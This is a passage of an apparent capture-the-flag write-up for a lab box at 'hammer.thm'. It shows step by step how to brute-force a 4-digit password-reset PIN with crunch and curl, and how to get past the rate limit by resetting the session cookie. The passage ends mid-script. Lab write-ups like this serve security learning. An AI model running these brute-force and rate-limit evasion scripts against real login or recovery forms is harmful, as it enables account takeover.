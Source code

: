 ### Summary
- 2 minutes to enter code
- 4 digit code
- There are no preceived limits or protections on this form (Brute force it is)
- Redirects to logout page

## 8. Brute force password reset

### 8.1 Create a 4 digit passwordlist
Using `crunch` we'll build a custom wordlist for all the 4 digit pin possibilities. 
```sh
crunch 4 4 0123456789 -o pins.txt
```

### 8.2 Attack script
Create a script that will try each pin and evaluate the result. 

Submit the initial reset request and save the session to view the pin entry form:
```sh 
curl -sL http://11.11.11.11:1337/reset-password.php -d "email=tester@hammer.thm" --cookie-jar cookie.txt
```

Send a request to the pin form with any combination of numbers
```sh
curl -sL http://11.11.11.11:1337/reset-password.php -d "code=0000" --cookie cookie.txt -O 
```

Identify successful / invalid responses:
```sh
response=$(curl -sL $url -d "code=$code" --cookie cookiet.txt)
if [[ $response == *"Invalid"* ]]; then
    echo "Invalid code"
elif [[ $response == *"Time"* ]]; then
    echo "Timer exceeded"
else
    echo $code
fi
```

### 8.3 Rate Limit Evaison
Running our code in a loop gets us banned. This particular application does have rate limiting protections.
- Limited to 9 requests < minute
- Limit is not visible in the javascript
- Session based?

A delay would significantly increase our brute force time. I'll try a cookie based reset first.
- reset the session if you hit any limits
- send a password reset on success
- save to result.html

```sh
function attempt_pin()
{
        pin=$1
        response=$(curl -sL $reset -d "recovery_code=$pin" --cookie cookie.txt --cookie-jar cookie.txt)
        if [[ $response == *"Invalid"* ]]; then
                echo "Invalid code: $pin"
        elif [[ $response == *"Time"* ]]; then
                echo "Time expired"
				get_session
				continue
        elif [[ $response == *"Rate"* ]]; then
```
